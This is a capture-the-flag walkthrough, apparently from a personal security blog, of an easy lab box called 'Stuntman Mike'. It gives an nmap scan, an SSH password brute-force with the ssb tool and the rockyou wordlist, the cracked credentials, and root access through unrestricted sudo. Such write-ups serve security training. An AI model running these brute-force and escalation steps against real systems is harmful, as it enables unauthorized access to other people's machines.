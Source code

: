 # Stuntman Mike

***
## Difficulty = Easy

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/13cff441-8c21-4bbd-ba6a-7bde2c3f640e)

***

We decided to run our nmap scan

```shell
# Nmap 7.94 scan initiated Wed Sep  6 06:48:00 2023 as: nmap -p- -sVC -v --min-rate=1000 -T4 -oN nmap.txt 10.150.150.166
Warning: 10.150.150.166 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.150.150.166
Host is up (0.16s latency).
Not shown: 65390 closed tcp ports (conn-refused), 143 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:9e:99:ed:7e:e0:d5:83:ad:c9:ba:7c:f1:bc:44:06 (RSA)
|   256 7e:53:59:7b:2d:6c:3b:d7:21:28:cb:cb:78:af:99:78 (ECDSA)
|_  256 c5:d2:2d:04:f9:69:40:4c:15:34:36:fe:83:1f:f3:44 (ED25519)
8089/tcp open  ssl/http Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-10-25T09:15:13
| Not valid after:  2022-10-24T09:15:13
| MD5:   a81b:a4c7:ea97:ebc8:7f73:310f:e279:3eb2
|_SHA-1: 6bd8:1aeb:bb06:78e8:33ff:3419:27c9:6b03:4d72:44c1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 06:50:17 2023 -- 1 IP address (1 host up) scanned in 137.41 seconds
```

Decided to enumerate port 8089/**Splunkd**, but we did not have any leads, enumerating Port 22/**SSH**, we have a username enumeration vulnerability, I tried several exploits but still no leads, But trying to connect to SSH without password gives us this banner :

![](https://i.imgur.com/GgLPpZB.png)

Definitely we know `Mike` is the username, we can bruteforce the password using this [script](https://github.com/pwnesia/ssb) (I decided not to use **hydra** because it is too slow)

_Syntax :_

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PTD/10.150.150.166$ sudo ssb -p 22 -w /usr/share/wordlists/rockyou.txt -t 15s -c 100 mike@10.150.150.166
```

_Output :_

![](https://i.imgur.com/WDcfF9j.png)

Great!!!, Now we can login with the credentials `mike:babygirl` 

![](https://i.imgur.com/i6wDrwT.png)
### Privilege Escalation

Running `sudo -l` we have permissions to run all commands with sudo {This means we can do sudo followed by any other programs or binary with the password "**babygirl**" and it should give us user as "**root**"}.

![](https://i.imgur.com/EUOdZic.png)

This privilege escalation vector is as simple as running the command `sudo su` which means to switch user, since we don't have any user specified, it will automatically switch to the user **root** for us.

![](https://i.imgur.com/K9XVlp3.png)

We got root!! bankai 😂

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

